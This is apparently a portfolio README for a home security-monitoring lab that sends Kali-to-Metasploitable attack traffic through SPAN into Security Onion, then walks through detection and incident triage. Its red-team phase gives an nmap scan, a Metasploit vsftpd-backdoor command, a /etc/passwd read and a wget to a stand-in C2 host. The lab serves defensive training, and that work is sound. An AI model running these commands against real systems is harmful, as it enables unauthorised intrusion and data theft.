





# Enterprise-Grade Network Security Monitoring & Threat Detection Lab


**A production-grade hybrid physical-virtual SOC environment demonstrating advanced network defense, threat detection engineering, and Infrastructure as Code automation.**

**Quick Links:** [Architecture Diagram](#network-architecture-diagram) | [Deep-Dive Analysis](#deep-dive-technical-analysis--design-rationales) | [Threat Simulation Guide](#lab-execution-guide-end-to-end-threat-simulation) | [Terraform Code](terraform/) | [Deployment Notes](#deployment-notes--troubleshooting)

---

## Executive Summary

This repository documents a fully operational home lab built to SOC engineering standards. It proves practical competency in network security monitoring (NSM), zero-trust segmentation, out-of-band traffic analysis, and automated infrastructure deployment—skills directly transferable to enterprise blue team and detection engineering roles.

**Business Value Proposition:**
- **Threat Detection Engineering:** Real-time intrusion detection via Security Onion 3.0 using Zeek and Suricata correlation against live attack traffic.
- **Network Segmentation Strategy:** Multi-zone architecture isolating production, SOC infrastructure, attack simulation, and vulnerable victim environments with explicit deny-by-default policies.
- **Zero-Trust Enforcement:** Firewall rules that prevent lateral movement from compromised attack or victim segments while maintaining full visibility through hardware SPAN mirroring.
- **Operational Automation:** Terraform-managed VMs eliminating configuration drift and enabling repeatable SOC deployments.
- **Hands-On IR Workflow:** Complete attack → detect → triage lifecycle with MITRE ATT&CK mapping and forensic documentation.

---

## Network Architecture Diagram

### Interactive Mermaid.js (renders natively on GitHub)


### Detailed ASCII Diagram




---

## Deep Dive Technical Analysis & Design Rationales

### 1. Network Isolation & Zero-Trust Enforcement

**Firewall Zone Bindings:**

| Zone | Members | Subnet | Purpose |
|------|---------|--------|---------|
| LAN | Port1, VLAN20 | 192.168.1.0/24 | Production / management |
| Security_Onion_Lab | VLAN10 | 192.168.10.0/24 | SOC infrastructure (monitoring) |
| Attack_Lab | VLAN30 | 192.168.30.0/24 | Adversary emulation (Kali) |
| Victim_Lab | VLAN40 | 192.168.40.0/24 | Vulnerable targets (Metasploitable) |
| LAN_Private | VLAN80 | 192.168.80.0/24 | Trusted wireless clients |

**Firewall Rules (Top-Down Logic):**





**Design Rationale:**

**Controlled Attack Surface:** Rule 13 permits Kali (VLAN30) to scan and exploit Metasploitable (VLAN40) so that a full kill chain can be demonstrated. The traffic is fully bidirectional, yielding complete PCAPs for analysis.

**Victim Containment:** Despite the successful exploitation, Rules 14–16 prevent the compromised victim from pivoting to the SOC sensor (VLAN10) or the home network (VLAN1/80). This is a classic DMZ-style isolation applied to a lab environment.

**Attack Lab Sandbox:** Rules 11 and 12 continue to restrict Kali itself from reaching anything other than its intended victim, preventing accidental exposure.

**NAT Policy Hardening:** An `Internal_No_NAT` policy blocks NAT between internal zones, ensuring source IP fidelity in logs.

**Note on Gateway Pingability:** From the Attack Lab, you may be able to ping the Sophos firewall's interface IPs (e.g., 192.168.100.1) because the firewall's own addresses are not covered by the DROP rules that target network objects. However, actual device IPs (like Metasploitable at 192.168.*.* or a WiFi laptop at 192.168.*.*) are unreachable, confirming the intended isolation.

---

### 2. SPAN / Port Mirroring – Out-of-Band Detection

The TP-Link switch mirrors all ingress and egress traffic on Ports 1 (firewall trunk) and 2 (WiFi AP) to a dedicated destination (Port 4). This port connects to Proxmox's secondary USB NIC, bridged to `vmbr1`, and fed directly into Security Onion's promiscuous sniffing interface (`net1`).

**Why This Works for the Allowed Attack Flow:**

When Kali (VLAN30) exploits Metasploitable (VLAN40), the packets flow:

Kali (vmbr0.30) → NIC0 → Switch Port3 → Switch Port1 (trunk) →
Sophos Firewall (ACCEPT Rule 13) → Switch Port1 → Switch Port3 →
vmbr0.40 → Metasploitable (bidirectional response returns the same path).

At Switch Port 1, both directions are copied by the SPAN engine and sent out Port 4. Even though the traffic is allowed, the full duplex stream reaches Security Onion without any inline performance impact.

**Key Benefits:**

- Complete visibility into exploit payloads, shell commands, and C2 traffic.
- SOC sensor remains invisible (no IP on sniffing interface).
- No SPAN-induced latency on the production data path.

---

### 3. Infrastructure as Code – Terraform-Driven SOC Deployment

All VMs are defined and provisioned using the `bpg/proxmox` Terraform provider (v0.106.0), ensuring:

- **Configuration Consistency:** Exact compute (4 vCPUs, 16GB RAM), dual-disk layout (OS + 100GB /nsm), and multi-interface network setup are codified in HCL.
- **Drift Detection:** `terraform plan` highlights any manual changes made via the Proxmox WebUI, enabling rapid rollback.
- **Disaster Recovery:** A complete sensor redeployment takes minutes.
- **Version Control:** Infrastructure changes are auditable through Git.

**Example snippet (security-onion.tf):**

```hcl
resource "proxmox_virtual_environment_vm" "security_onion" {
  name      = "soc-sensor"
  node_name = "pvesoc"

  cpu { cores = 4 }
  memory { dedicated = 16384 }

  disk { datastore_id = "local-lvm"; size = 200 }   # OS
  disk { datastore_id = "local-lvm"; size = 100 }   # /nsm

  network_device { bridge = "vmbr0"; vlan_id = 10 } # Management
  network_device { bridge = "vmbr1" }               # Sniffing (SPAN)
}
```

---

## Lab Execution Guide: End-to-End Threat Simulation

### Phase 1 – Attack Execution (Red Team)

**Objective:** Exploit a known vulnerability on Metasploitable 2 (VLAN40) from Kali Linux (VLAN30), generating full bidirectional traffic captured by the SPAN mirror.

**Step 1: Verify Isolation**

```bash
# From Kali (192.168.30.x)
ping 192.168.40.50    # Victim – should respond (attack allowed)
ping 192.168.10.50    # SOC sensor – timeout (Rule 11)
ping 192.168.1.50     # LAN device – timeout (Rule 11)
ping 192.168.80.53    # WiFi device – timeout (Rule 12)
# Note: Gateway IPs (e.g., 192.168.10.1) may respond; this is expected firewall behavior.
```

**Step 2: Reconnaissance Scan**

```bash
nmap -sS -p 21,22,23,80,445,3306 --reason 192.168.40.50
```

You should see open ports: 21 (FTP), 22 (SSH), 23 (Telnet), 80 (HTTP), 139/445 (SMB), 3306 (MySQL).

**Step 3: Exploit vsftpd Backdoor**

```bash
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS 192.168.40.50; run"
```

You'll receive a command shell on the Metasploitable system.

**Step 4: Post-Exploitation Activity**

From the compromised shell, generate detectable network traffic:

```bash
whoami
cat /etc/passwd
wget http://test-c2-domain.example/payload.sh   # Simulated C2 beacon
```

---

### Phase 2 – Network Detection (Blue Team)

**Objective:** Verify Security Onion captured and alerted on the entire attack chain.

**1. Verify SPAN Capture**

```bash
ssh analyst@192.168.10.11
sudo tcpdump -i net1 -c 50 host 192.168.40.50
# Observe SYN, SYN-ACK, PSH-ACK packets – proof of full conversation.
```

**2. Suricata Alerts**

Security Onion Web UI → Dashboards → Alerts → filter: `source.ip:192.168.30.x`

Expected detections:
- **ET SCAN NMAP TCP SYN Scan**
- **ET EXPLOIT VSFTPD Backdoor User-Agent**
- **ET MALWARE Suspicious Outbound Connection** (wget)

**3. Zeek Connection Logs**

Hunt → select conn logs → query: `source.ip:192.168.30.x AND destination.ip:192.168.40.50`

Examine `conn_state` values: `SF` for FTP/SSH, `S0` for SMB attempts, etc.

**4. Full PCAP Retrieval**

Right-click any alert → "Download PCAP" → open in Wireshark. Follow the TCP stream to see the entire exploit and command execution.

---

### Phase 3 – Triage & Incident Response

**Step 1: Reconstruct the Kill Chain**

In Kibana, filter by `source.ip:192.168.30.x` and sort by `@timestamp`. Document the progression: recon → exploit → execution → C2.

**Step 2: MITRE ATT&CK Mapping**

| Tactic | Technique ID | Observed Activity |
|--------|-------------|-------------------|
| Discovery | T1046 | Nmap TCP SYN scan |
| Initial Access | T1210 | vsftpd 2.3.4 backdoor exploit |
| Execution | T1059.004 | Unix shell commands |
| Command and Control | T1071.001 | HTTP GET to test-c2-domain |

**Step 3: Firewall Log Correlation**

Check Sophos Log Viewer: filter source `ATTACK_LAB` → destination `Victim_Lab`. You'll see ACCEPT entries for the attack traffic, and DROP entries if the victim later tried to reach the SOC (demonstrating containment).

**Step 4: Incident Report Example**

```markdown
## Incident Summary
- **Alert ID:** Suricata SID: 2012xxx, 2101xxx
- **Source:** 192.168.30.100 (Kali Linux)
- **Target:** 192.168.40.50 (Metasploitable 2)
- **Vector:** vsftpd 2.3.4 backdoor (CVE-2011-2523)
- **Detection:** SPAN → Security Onion 3.0 (Suricata/Zeek)
- **Containment:** Victim network (VLAN40) egress blocked to SOC/LAN/WiFi
- **Remediation:** Replace Metasploitable, verify firewall rules remain enforced.
```

---

## Deployment Notes & Troubleshooting

This section captures the key configuration details and pitfalls resolved during the lab build.

### 1. Proxmox Bridge VLAN Awareness

**Symptom:** VMs with VLAN tags could not communicate with their gateway after adding a new VLAN (40).

**Cause:** The Proxmox Linux bridge `vmbr0` was not VLAN-aware. It passed tagged frames by default but did not filter or properly handle them when new VLANs were introduced.

**Fix:** Added `bridge-vlan-aware yes` and `bridge-vids 1,10,30,40,80` to `/etc/network/interfaces` and restarted networking. After that, each VM's tap interface must be granted its VLAN ID (Proxmox does this automatically on VM restart, or manually with `bridge vlan add`).

### 2. Sophos Network Objects Must Be Subnets, Not Host IPs

**Symptom:** Firewall rules that referenced network objects (e.g., `#Port1.40`) were not matching traffic to devices inside the subnet (e.g., 192.168.40.50).

**Cause:** The objects were defined as single IP addresses (the gateway /32) rather than the whole subnet.

**Fix:** Created new network objects (e.g., `Victim_Subnet: 192.168.40.0/24`) and updated all relevant rules to use them instead of the gateway IPs.

### 3. ARP Failures After Bridge Changes

**Symptom:** A VM could ping its gateway but not other hosts; `arp -an` showed `<incomplete>` for the gateway.

**Cause:** The bridge's VLAN filter blocked the VM's tagged ARP requests because the tap interface was missing the VLAN in the bridge VLAN database.

**Fix:** Restarted the VM, or manually ran `bridge vlan add vid <id> dev tap<VM>i0` and rebooted the VM.

### 4. Stateful Firewall Reply Traffic

**Symptom:** Kali could not ping Metasploitable even though the attack rule allowed `ATTACK_LAB → Victim_Lab`.

**Cause:** Sophos zones treat each direction as a separate connection. The ping reply from `Victim_Lab` to `ATTACK_LAB` was not covered by any rule and hit the default DROP.

**Fix:** Added an explicit rule: `Victim_Lab → ATTACK_LAB (ACCEPT)` to permit return traffic for the lab scenario. This does not weaken containment because the victim still cannot reach the SOC or LAN.

### 5. LAB_KILL_SWITCH – Emergency Isolation

A top-priority, disabled-by-default firewall rule (`Reject: Security_Onion_Lab → Any`) serves as an emergency kill switch. If a lab VM or the SOC sensor itself becomes compromised, enable this rule to instantly cut all communication from the SOC/lab environment without affecting production LAN/WiFi. The "Reject" action was chosen over "Drop" so that connection attempts fail immediately rather than timing out, aiding rapid diagnosis.

---

## Skills Demonstrated

| Skill Domain | Demonstrated By |
|--------------|-----------------|
| Firewall Engineering | Multi-zone segmentation, zero-trust rule design, NAT hardening |
| Network Security Monitoring | Out-of-band SPAN topology, Security Onion sensor tuning |
| Infrastructure as Code | Full Terraform provisioning of SOC, attack, and victim VMs |
| Threat Simulation & Red Team | Exploitation of CVE-2011-2523, post-exploitation activities |
| Incident Response & Forensics | Alert triage, PCAP analysis, MITRE ATT&CK mapping |
| Virtualization & Linux Systems | Proxmox bridges, VLAN tagging, promiscuous interface configs |

---

## Future Enhancements

- **Threat Intelligence Integration:** Ingest STIX/TAXII feeds into Security Onion.
- **SIEM Centralization:** Forward Sophos syslog to Security Onion for unified correlation.
- **SOAR Automation:** Deploy TheHive/Cortex for automated case management.
- **Purple Team Validation:** Integrate Atomic Red Team to continuously test detection rules.
- **Cloud Extension:** Extend Terraform to provision remote sensors in AWS/GCP with VPN backhaul.

---

## Contact

This lab showcases hands-on competency in detection engineering, defensive architecture, and security automation. For technical discussions or collaboration opportunities, connect via:

- **GitHub:** [Your Profile]
- **LinkedIn:** [Your Profile]
- **Email:** [Your Email]

---

**Last Updated:** May 2026  
**Environment Version:** Security Onion 3.0.0 | Sophos XG Home | Proxmox VE 9.1.11 | Terraform 1.x
